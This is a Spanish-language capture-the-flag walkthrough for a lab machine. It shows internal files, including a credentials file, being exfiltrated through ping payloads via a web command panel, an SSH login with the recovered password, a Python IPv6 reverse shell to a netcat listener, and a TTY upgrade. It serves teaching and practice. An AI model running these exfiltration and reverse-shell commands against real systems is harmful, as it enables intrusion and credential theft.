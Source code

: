 Si desde el panel de comandos de la web le ponemos:

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line 10.10.14.29; done
```

podemos leer ficheros internos de la maquina victima con ping.

Como en la web vemos un mensaje que hay un fichero credentials en el directorio personnal, miramos para leerlo con el commando

```bash
xxd -p -c 4 /home/loki/cred* | while read line; do ping -c 1 -p $line 10.10.14.29; done
```

y vemos un password `lokiisthebestnorsegod`.## Vuln exploit & Gaining Access {-}

### Ganando acceso con ssh {-}

Como tenemos la contraseña del usuario loki, no connectamos a la maquina victima con 
ssh.

```bash
ssh loki@10.10.10.92
password: lokiisthebestnorsegod
```

y podemos visualizar la flag.

### Ganando acceso con ipv6 {-}

Tambien podriamos ganar acceso al systema por IPV6

1. Mirar con ifconfig nuestra ipv6
1. Ponernos en escucha por ipv6 con netcat

    ```bash
    nc -nv --listen dead:beef:2::101b 443
    ```

1. Entablar la reverse shell con python

    ```bash
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::101b",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```

Y de esta manera vemos que ganamos acceso a la maquina victima como *www-data*

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```
